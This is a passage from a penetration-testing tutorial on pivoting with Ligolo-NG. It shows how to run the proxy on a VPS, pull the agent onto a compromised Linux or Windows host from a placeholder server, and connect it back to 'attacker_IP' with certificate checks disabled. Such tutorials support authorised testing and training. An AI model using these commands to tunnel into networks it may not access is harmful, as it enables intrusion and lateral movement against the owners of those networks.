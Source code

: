 ⸻

### Option 2: Running the Proxy on a Remote VPS (Debian, No GUI)

If you want **a stable always-online relay**, run the Ligolo-NG proxy on a **Debian VPS** instead of your local Kali box.

**🔹 Install Ligolo-NG on the VPS**

1️⃣ Update and install dependencies:

sudo apt update && sudo apt install wget unzip

2️⃣ Download Ligolo-NG:

wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/ligolo-ng_x64-linux.zip

3️⃣ Extract and set permissions:

unzip ligolo-ng_x64-linux.zip
chmod +x proxy agent

4️⃣ Start the Ligolo-NG proxy on your **Debian VPS**:

./proxy -selfcert -listen 0.0.0.0:11601

📌 **Why use a VPS?** If you’re **behind NAT** or **don’t want to expose your local IP**, a VPS provides a **stable relay** that pivots can connect to.

⸻

## 4. Running the Agent on the Pivot Host (Compromised Machine)

Once you have **proxy running**, transfer the agent to the pivot.

**🔹 Transferring the Agent**

On **Linux pivot**:

wget http://your-server.com/agent -O /tmp/agent
chmod +x /tmp/agent

On **Windows pivot** (PowerShell):

Invoke-WebRequest -Uri "http://your-server.com/agent.exe" -OutFile "C:\Users\Public\agent.exe"

**🔹 Running the Agent**

After transferring, run the agent to connect to your **proxy**:

🔹 **Linux Pivot:**

./agent -connect attacker_IP:11601 -ignore-cert

🔹 **Windows Pivot (CMD or PowerShell):**

agent.exe -connect attacker_IP:11601 -ignore-cert

* -connect → Specifies where the agent connects (**your attack machine/VPS**).
* -ignore-cert → Ignores TLS certificate warnings (useful with -selfcert).
